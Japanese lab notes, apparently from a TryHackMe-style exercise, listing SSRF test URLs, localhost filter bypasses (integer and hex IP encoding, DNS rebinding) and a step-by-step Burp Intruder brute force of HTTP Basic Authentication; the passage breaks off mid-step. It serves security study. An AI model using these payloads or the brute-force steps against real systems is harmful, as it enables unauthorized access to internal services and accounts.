 **検証方法**
1. 内部サービスへのアクセスを確認するためにローカルアドレスにリクエスト送る
	burpsuiteでサーバーがリクエストを送っているかを確認する
	基本的なSSRFテスト
	入力フォームやAPIエンドポイントに、以下のURLを試す
```
http://127.0.0.1/
http://localhost/
http://192.168.1.1/
http://10.0.0.1/
http://[::1]/
```
→ 何らかのレスポンスがある場合、内部アクセスが可能な可能性が高い。

管理パネルのチェック
SSRFで管理パネルやアプリケーションにアクセスできるかを調査
```
http://localhost/admin
http://127.0.0.1:8000/
http://127.0.0.1:8080/
http://127.0.0.1:5000/
http://127.0.0.1:9001/ (Supervisor)
```
→ 404以外のレスポンスや特定の管理画面のレスポンスが返ってきたら脆弱性あり。

**Bypass Techniques（フィルタ回避）**
一部のサーバーでは、SSRFを防ぐために「`localhost` へのリクエスト禁止」などの制限がある。
以下の方法でバイパスを試す。
- IPアドレスのエンコード
```
http://2130706433/  # 127.0.0.1 を整数表記
http://0x7F000001/  # 127.0.0.1 を16進数
```
- DNS Rebinding
一部のサーバーでは、外部ドメインから内部へリクエストを送れるようになる。
```
http://attacker-controlled-domain.com/
```
→ DNSリバインディングを利用し、`localhost` へリダイレクト。



# Basic Authentication（ベーシック認証）のブルートフォースによる突破
目的 : Basic Authentication を利用しているウェブサイトに対してブルートフォース攻撃、辞書攻撃を行い、ログイン資格情報を取得する。

Basic Authenticationはこんなやつ↓
![](https://i.imgur.com/VTmAa0S.png)


1. ターゲットにアクセス
	- http://enum.thm/labs/basic_auth/ にアクセスする。
2. Basic Authentication のリクエストを取得
	- ポップアップが表示されるので、適当な ユーザー名とパスワード を入力し、ログインを試みる。
	- Burp Suite を使用して、このリクエストをキャプチャする。
3. Burp Suite の Intruder にリクエストを送信
	- キャプチャしたリクエストを 右クリック → "Send to Intruder" で Intruder に送る。
4. Authorization ヘッダーのデコード
	- "Positions" タブ に移動し、Authorization ヘッダーの base64 エンコードされた認証情報 をデコードする（base64 decode）。
BurpでBase64デコードする手順
![](https://i.imgur.com/x5r1zdu.png)
5. パスワードリストを設定
	- "Payloads" タブ に移動し、"Payload type" を "Simple list" に設定する。
	- 使用するパスワードリストを選択
	- AttackBox の場合:
	- /usr/share/wordlists/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt
6. ペイロードの処理ルールを追加